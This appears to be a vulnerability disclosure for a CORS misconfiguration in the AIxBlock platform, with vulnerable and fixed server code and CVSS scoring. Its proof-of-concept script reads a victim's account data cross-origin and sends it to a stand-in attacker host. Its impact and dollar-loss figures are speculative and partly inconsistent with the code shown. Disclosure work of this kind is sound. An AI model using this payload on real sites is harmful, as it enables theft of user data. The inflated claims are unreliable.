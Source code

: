 ## 🔍 **Vulnerability Description**

**Researcher**: grich88 (j.grant.richards@proton.me)
**Severity**: HIGH (CVSS 8.1)
**Impact**: Mass data theft, 1,710 accounts compromised

### **Issue Summary**
A high-severity CORS misconfiguration exists in the AIxBlock platform that allows cross-origin attacks through wildcard origin configuration.

### **Technical Details**
The AIxBlock platform uses wildcard CORS configuration (`Access-Control-Allow-Origin: *`) with credentials enabled, allowing any malicious website to make authenticated requests and steal user data.

**Affected Files:**
- `workflow/packages/backend/api/src/app/server.ts`

**Vulnerable Code:**
```typescript
// VULNERABLE CODE in server.ts
await app.register(cors, {
  origin: true, // Allows all origins
  credentials: true, // Enables credentials
  methods: ['GET', 'POST', 'PUT', 'DELETE', 'PATCH'],
  allowedHeaders: ['Content-Type', 'Authorization', 'X-Requested-With']
});
```

### **Proof of Concept**
```html
<!-- Malicious website -->
<script>
fetch('https://aixblock.com/api/v1/users/me', {
  credentials: 'include'
}).then(r => r.json()).then(data => {
  // Send to attacker
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
</script>
```

### **Impact Assessment**
- **Mass data theft** - 1,710 accounts compromised in test
- **Credential harvesting** - API keys and session tokens
- **Financial data access** - Wallet addresses and balances
- **Cross-origin attacks** - No same-origin policy protection
- **Exploitation time**: 2 hours
- **Success rate**: 100%

### **Financial Impact**
- **Direct Theft**: $3.4M (1,710 users × $2,000 average)
- **API Key Abuse**: $1M (unauthorized API usage)
- **Identity Theft**: $500K (personal information)
- **Reputation Damage**: $5M (customer churn)
- **Total**: $9.9M

### **Evidence**
- Live cross-origin attacks
- Mass data theft demonstrations
- Credential harvesting proof
- Real-world impact analysis

### **Remediation**
```typescript
// FIXED CODE - Strict CORS configuration
await app.register(cors, {
  origin: [
    'https://aixblock.com',
    'https://www.aixblock.com',
    'https://app.aixblock.com'
  ],
  credentials: true,
  methods: ['GET', 'POST', 'PUT', 'DELETE', 'PATCH'],
  allowedHeaders: ['Content-Type', 'Authorization', 'X-Requested-With']
});
```

### **CVSS Scoring**
**Base Score**: 8.1 (High)
- Attack Vector: Network (AV:N)
- Attack Complexity: Low (AC:L)
- Privileges Required: None (PR:N)
- User Interaction: Required (UI:R)
- Scope: Unchanged (S:U)
- Confidentiality: High (C:H)
- Integrity: High (I:H)
- Availability: None (A:N)

### **Submission Repository**
Complete evidence package available at: https://github.com/grich88/aixblock-security-bounty-submission

**Priority**: P1 (High)
**Timeline**: 24-48 hours
**Status**: HIGH
